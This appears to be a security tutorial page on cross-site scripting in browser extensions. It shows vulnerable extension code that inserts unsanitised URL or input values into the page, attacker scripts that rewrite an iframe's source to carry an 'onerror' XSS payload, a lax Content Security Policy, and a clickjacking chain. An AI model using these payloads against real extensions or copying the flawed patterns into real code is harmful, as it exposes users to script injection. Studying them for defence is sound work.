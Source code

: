 # BrowExt - XSS Example

{{#include ../../banners/hacktricks-training.md}}

## Cross-Site Scripting (XSS) through Iframe

In this setup, a **content script** is implemented to instantiate an Iframe, incorporating a URL with query parameters as the source of the Iframe:

```javascript
chrome.storage.local.get("message", (result) => {
  let constructedURL =
    chrome.runtime.getURL("message.html") +
    "?content=" +
    encodeURIComponent(result.message) +
    "&redirect=https://example.net/details"
  frame.src = constructedURL
})
```

A publicly accessible HTML page, **`message.html`**, is designed to dynamically add content to the document body based on the parameters in the URL:

```javascript
$(document).ready(() => {
  let urlParams = new URLSearchParams(window.location.search)
  let userContent = urlParams.get("content")
  $(document.body).html(
    `${userContent} <button id='detailBtn'>Details</button>`
  )
  $("#detailBtn").on("click", () => {
    let destinationURL = urlParams.get("redirect")
    chrome.tabs.create({ url: destinationURL })
  })
})
```

A malicious script is executed on an adversary's page, modifying the `content` parameter of the Iframe's source to introduce a **XSS payload**. This is achieved by updating the Iframe's source to include a harmful script:

```javascript
setTimeout(() => {
  let targetFrame = document.querySelector("iframe").src
  let baseURL = targetFrame.split("?")[0]
  let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>"
  let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`

  document.querySelector("iframe").src = maliciousURL
}, 1000)
```

An overly permissive Content Security Policy such as:

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

allows the execution of JavaScript, making the system vulnerable to XSS attacks.

An alternative approach to provoke the XSS involves creating an Iframe element and setting its source to include the harmful script as the `content` parameter:

```javascript
let newFrame = document.createElement("iframe")
newFrame.src =
  "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
  encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>")
document.body.append(newFrame)
```

## DOM-based XSS + ClickJacking

This example was taken from the [original post writeup](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

The core issue arises from a DOM-based Cross-site Scripting (XSS) vulnerability located in **`/html/bookmarks.html`**. The problematic JavaScript, part of **`bookmarks.js`**, is detailed below:

```javascript
$("#btAdd").on("click", function () {
  var bookmarkName = $("#txtName").val()
  if (
    $(".custom-button .label").filter(function () {
      return $(this).text() === bookmarkName
    }).length
  )
    return false

  var bookmarkItem = $('<div class="custom-button">')
  bookmarkItem.html('<span class="label">' + bookmarkName + "</span>")
  bookmarkItem.append('<button class="remove-btn" title="delete">x</button>')
  bookmarkItem.attr("data-title", bookmarkName)
  bookmarkItem.data("timestamp", new Date().getTime())
  $("section.bookmark-container .existing-items").append(bookmarkItem)
  persistData()
})
```

This snippet fetches the **value** from the **`txtName`** input field and uses **string concatenation to generate HTML**, which is then appended to the DOM using jQuery’s `.append()` function.

Typically, the Chrome extension's Content Security Policy (CSP) would prevent such vulnerabilities. However, due to **CSP relaxation with ‘unsafe-eval’** and the use of jQuery’s DOM manipulation methods (which employ [`globalEval()`](https://api.jquery.com/jquery.globaleval/) to pass scripts to [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) upon DOM insertion), exploitation is still possible.

While this vulnerability is significant, its exploitation is usually contingent on user interaction: visiting the page, entering an XSS payload, and activating the “Add” button.

To enhance this vulnerability, a secondary **clickjacking** vulnerability is exploited. The Chrome extension's manifest showcases an extensive `web_accessible_resources` policy:

```json
"web_accessible_resources": [
    "html/bookmarks.html",
    "dist/*",
    "assets/*",
    "font/*",
    [...]
],
```

Notably, the **`/html/bookmarks.html`** page is prone to framing, thus vulnerable to **clickjacking**. This vulnerability is leveraged to frame the page within an attacker’s site, overlaying it with DOM elements to redesign the interface deceptively. This manipulation leads victims to interact with the underlying extension unintentionally.

## References

- [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
- [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{{#include ../../banners/hacktricks-training.md}}




